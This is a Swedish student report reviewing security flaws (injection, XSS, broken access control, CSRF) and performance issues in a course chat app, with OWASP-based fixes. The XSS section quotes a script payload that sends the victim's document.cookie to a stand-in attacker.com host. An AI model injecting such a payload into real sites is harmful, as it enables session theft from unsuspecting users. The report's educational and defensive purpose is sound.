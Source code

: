 # Labby Mezzage
### Säkerhetsbrister 

* [Injections](https://github.com/jc222fi/1DV449_jc222fi/blob/master/LabbyMezzage.md#injections)
* [Cross-Site Scripting (XSS)](https://github.com/jc222fi/1DV449_jc222fi/blob/master/LabbyMezzage.md#cross-site-scripting-xss),
* [Avsaknad av funktionella nivåer med åtkomstkontroll](https://github.com/jc222fi/1DV449_jc222fi/blob/master/LabbyMezzage.md#avsaknad-av-funktionella-nivåer-med-åtkomstkontroll)
* [Cross-Site Request Forgery (CSRF)](https://github.com/jc222fi/1DV449_jc222fi/blob/master/LabbyMezzage.md#cross-site-request-forgery-csrf)
### Prestandaproblem 

* [Inlänkning](https://github.com/jc222fi/1DV449_jc222fi/blob/master/LabbyMezzage.md#inlänkning)
* [Inline](https://github.com/jc222fi/1DV449_jc222fi/blob/master/LabbyMezzage.md#inline)
* [Egna övergripande reflektioner](https://github.com/jc222fi/1DV449_jc222fi/blob/master/LabbyMezzage.md#egna-övergripande-reflektioner)
### Potentiella säkerhetsbrister och prestandaproblem
Skriven av Johanna Larsson Cornejo (jc222fi) för kursen 1DV449 - Webbteknik II

## Potentiella brister gällande säkerheten
Vid en första anblick ser applikationen ut att utföra den uppgift den är avsedd för bra, men vid en närmre titt kan en del säkerhetsbrister konstateras. Effekterna av en säkerhetsbrist beror alltid på vart bristen ligger och vilken information som läcker ut till följd av den bristande säkerheten. Vi ska i den här rapporten titta närmare på de olika säkerhetsbristerna som funnits en efter en.

### Injections
Otillräckligt skydd eller helt avsaknad av skydd mot injections i exempelvis ett inloggningsformulär är ett stort problem i många av dagens webbapplikationer, och Labby Mezzage är inget undantag. Problemet med injections är att applikationen vid en attack ger åtkomst till databasen till en attackerare som inte ska ha någon åtkomst alls, och är med som första punkt på OWASPs lista från 2013 på de vanligaste säkerhetsbristerna i webbapplikationer [1]. Detta ger en chans till manipulering av data eller helt enkelt exponering av känslig data. För att förhindra attacker med injections rekommenderar OWASP att man använder lagrade procedurer med parametrar [2], och aldrig ge direkt åtkomst till databasen genom konkatenering av strängar där det som användaren skriver in i lösenordsfältet läggs direkt in i SQL-satsen. Om webbramverk används, som i det här fallet är Ajax, är det viktigt att det är den senaste versionen som används för att säkerställa att ramverket är uppdaterat och eventuella säkerhetsbrister som upptäckts har blivit åtgärdade. De rekommenderar även att man använder ESAPI database encoders i de fall det är implementerbart [2].

### Cross-Site Scripting (XSS)
Cross-Site Scripting, ofta förkortat till XSS, är med som nummer 3 på 2013 års lista över de vanligaste och mest vidspridda säkerhetsbristerna enligt OWASP [1]. Efter ett försök att skicka en textsträng istället för ett normalt utformat meddelande har påvisat att denna applikation är sårbar för dessa attacker. Då validering mot HTML-taggar saknas är det inga problem att skicka textsträngen ” `><script>document.location='http://www.attacker.com/cgi-bin/cookie.cgi?foo='+document.cookie</script>`'”, som sedan agerar precis som ett script och skickar vidare information om användarens session till den destination som specificerats i scriptet. För att förebygga denna typ av attack bör en validering med hjälp av en ”whitelist” användas för all input från formulär, även om detta inte är tillräckligt för att helt förhindra dessa attacker. Valideringen bör ske i flera steg, och applikationen bör utformas på ett sätt så att ingen input från användaren resulterar i att HTML-kod kan anges direkt i textfältet och skickas med anropet. Exempelvis kan ESAPI referensimplementation användas för att HTML-kodning ska ske på eventuella försök att skicka med HTML-taggar med anropet [3].

### Avsaknad av funktionella nivåer med åtkomstkontroll
Genom att manuellt ändra URLen direkt i adressfältet kan man testa om åtkomstkontroll till olika priviligierade funktioner är korrekt implementerat. Denna säkerhetsrisk är med som nummer 7 på OWASPs lista från 2013 [1]. Ett specifikt önskemål från kundens sida är att ingen utomstående ska ha åtkomst till innehållet, utan korrekt inloggning ska man inte kunna se något innehåll. Detta krav är inte tillgodosett i dagsläget, genom att på startsidan manuellt ändra URLen och lägga till /message kan en utomstående obehindrat se alla meddelanden som skickats. Inga nya meddelanden kan skickas, men informationen är inte så skyddad som startsidan med inloggningsformulär kan antyda. Lägger du dessutom till /data efter /message exponeras hela strukturen av JSON-objektet som innehåller all data angående alla meddelanden, inklusive id som är primärnyckel i databasen. Har man som obehörig användare tillgång till primärnyckeln kan man även genom eventuella andra säkerhetsbrister ändra och manipulera dessa poster. För att förhindra dessa typer av attacker bör man ha en auktoriseringsmodul som verifierar att användaren är behörig till den funktion som den försöker använda. En säkerhetskontroll bör vara implementerad på ett sådant sätt att en användare som utgångspunkt är nekad åtkomst, om inte kriterierna för åtkomst uppfylls. OWASP har ett dokument med en guide för hur man testar sin applikation för denna typ av attacker, eftersom det är osannolikt att automatiska tester identifierar denna typ av säkerhetsbrister [4].

### Cross-Site Request Forgery (CSRF)
Vid otillbörligt skydd mot CSRF kan en attackerare skicka requests med beteenden som inte var tanken. Exempelvis kan attackeraren lägga in en img-tagg och bädda in det önskade beteendet, som kan vara en transaktion från ett konto till ett annat, via en sida som attackeraren kontrollerar. I fallet med Labby Mezzage innebär det att en obehörig användare kan skapa och radera meddelanden, förslagsvis med javascript, om en användare är inloggad i applikationen. Denna säkerhetsbrist är listad som nummer 8 på OWASPs lista från 2013 [1]. För att skydda sig mot den här typen av attacker kan man inkludera en unik token, även kallat Synchronizer Token Pattern, som skickas med din HTTP-request. Dessa tokens borde som minimum var unika för varje användarsession. OWASP har även utvecklat ett bibliotek för att skydda sig mot dessa attacker, som implementerar en variant av Synchronizer Token Pattern [5]. Man kan även som användare ta en del steg till att försvåra för den här typen av attacker, några av dessa är att aldrig låta en webbläsare komma ihåg din inloggning, att alltid logga ut direkt efter att du använt en webbapplikation, eller helt enkelt stänga av JavaScript direkt i webbläsaren [6].

## Prestandaproblem
Då applikationen är förhållandevis liten märker man inte av de misstag som gjorts gällande prestandan på samma sätt som man skulle gjort på en större applikation eller webbsida.

##CSS och JavaScript implementerat på fel ställen

### Inlänkning
All CSS-kod för en webbsida bör skrivas i ett eller flera separata dokument för att sedan länkas in i taggen <head> i början av ett HTML-dokument. För att som utvecklare lättare kunna underhålla koden, samt för att koden ger olika beteenden i webbläsaren beroende på vart den läggs. Om man följer standarden att länka in ett dokument med CSS-kod, men lagt den i slutet av HTML-dokumentet istället för i början kan webbläsaren upplevas som sämre eftersom webbläsaren kan vänta med att visa elementen på sidan tills alla resurser lästs in. Detta kan vara olika beroende på vilken webbläsare som används, men i värsta fall kan webbläsaren välja att vänta med att rendera alla element på sidan tills all CSS-kod lästs in, eftersom den vill undvika ”Flash of Unstyled Content”, där element till en början visas utan sin design och eventuella bilder för att fixas till när webbläsaren väl kommer ner till den del av koden där CSS-koden laddas in [7]. JavaScript ska istället länkas in i slutet av HTML-dokumentet, eftersom sidan annars slutar att renderas till dess att webbläsaren är färdig med att läsa in scriptet. Skulle man länka in ett script i mitten på en webbapplikation skulle det verka som att webbläsaren hängt sig eller att anslutningen brutits eftersom den inte gör några synliga framsteg för användaren förrän scriptet har laddat färdigt helt [8]. För att optimera applikationen bör detta åtgärdas för Labby Mezzage, då det finns script som laddas in redan i <head>-taggen och på så vis sinkar inläsningen av applikationen till webbläsaren.

### Inline
Utöver att CSS-resurser och script länkas in på fel ställe hittas även en del inline-kod, vilket betyder att det kodats rakt in i HTML-dokumentet. Detta kan ge ett oväntat utseende vad gäller design, eftersom CSS-regler har olika vikt beroende på om den är skriven inline eller länkats in från ett separat dokument. Har du som utvecklare lagt CSS-kod som attribut på ett HTML-element skriver detta attribut över regler som återfinns i den separata CSS-resursen eftersom det har högre prioritet enligt webbläsaren. Har du lagt CSS-kod i en `<style>`tagg skriver denna kod också över en extern resurs [9]. Detsamma gäller alla script, men här har vi också problemet att progressiv rendering av applikationen pausas när webbläsaren hittar en `<script>`-tagg och fortsätter för efter det att scriptet lästs in i sin helhet. För användaren kan detta upplevas som att uppkopplingen slutat fungera, eller att något annat är fel med applikationen. Av den anledningen bör all form av inline-kod undvikas och inte användas alls [10]. I Labby Mezzage används både JavaScript-kod och CSS-kod som icke externa resurser, vilket givetvis påverkar prestandan. All kod bör ligga som externa resurser och länkas in, och JavaScript-resurserna bör därtill minifieras [11].

## Egna övergripande reflektioner

Personligen tycker jag att säkerhet är en viktig del av alla applikationer, och lägger så mycket tid som jag hinner med på att inte ha några vidöppna säkerhetsbrister. I den här applikationen verkar det inte ha lagts speciellt mycket energi på säkerheten då de flesta i branschen är medvetna om de största säkerhetsbristerna som uppenbarligen finns i den koden. Då applikationen är förhållandevis liten och inte avsedd att hantera en massa känsliga data är det inte hela världen att den inte täppt igen vartenda säkerhetshål i boken, men de säkerhetsbrister som jag har påtalat i denna rapport känns alldeles för genomskinliga för att släppas igenom. På sina håll har det inte ens gjorts ett försök att förhindra intrång, vilket påvisar en nonchalans för kundens intressen.

Vad gäller optimering av prestandan har här gjorts en del riktiga nybörjarmisstag, att inline-styles var en dålig idé fick vi lära oss redan i den första kursen. Att länka in script i slutet och CSS i `<head>` var också bland det första vi lärde oss, men ändå har båda dessa misstag gjorts i denna applikation.
